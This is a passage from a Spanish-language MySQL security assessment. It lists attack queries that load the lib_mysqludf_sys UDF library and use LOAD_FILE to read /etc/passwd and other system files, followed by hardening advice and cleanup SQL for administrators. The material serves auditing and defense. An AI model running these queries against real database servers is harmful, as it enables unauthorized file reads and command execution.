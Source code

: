 ### 11.2 User Defined Functions (UDF)

```sql
-- Verificar capacidad de crear funciones
SELECT * FROM mysql.func;

-- Intentar cargar librerías externas (si se tienen permisos)
CREATE FUNCTION lib_mysqludf_sys_info RETURNS string SONAME 'lib_mysqludf_sys.so';
```

### 11.3 Lectura de Archivos del Sistema

```sql
-- Intentar leer archivos del sistema (si load_file está disponible)
SELECT LOAD_FILE('/etc/passwd');
SELECT LOAD_FILE('/proc/version');
SELECT LOAD_FILE('C:\\Windows\\System32\\drivers\\etc\\hosts');
```

---

## 12. RECOMENDACIONES DE SEGURIDAD

### 12.1 Para el Administrador del Sistema

1. **Configuración de Autenticación:**
   - Deshabilitar acceso root remoto
   - Implementar contraseñas robustas
   - Configurar autenticación por certificados

2. **Configuración de Red:**
   - Restringir acceso por IP
   - Implementar firewall con reglas específicas
   - Usar túneles SSH para conexiones remotas

3. **Configuración de MySQL:**
   - Deshabilitar `local_infile`
   - Configurar `secure_file_priv`
   - Limitar privilegios de usuarios

### 12.2 Comandos de Hardening

```sql
-- Eliminar usuarios anónimos
DELETE FROM mysql.user WHERE User='';

-- Eliminar base de datos de prueba
DROP DATABASE IF EXISTS test;

-- Actualizar privilegios
FLUSH PRIVILEGES;
```

---
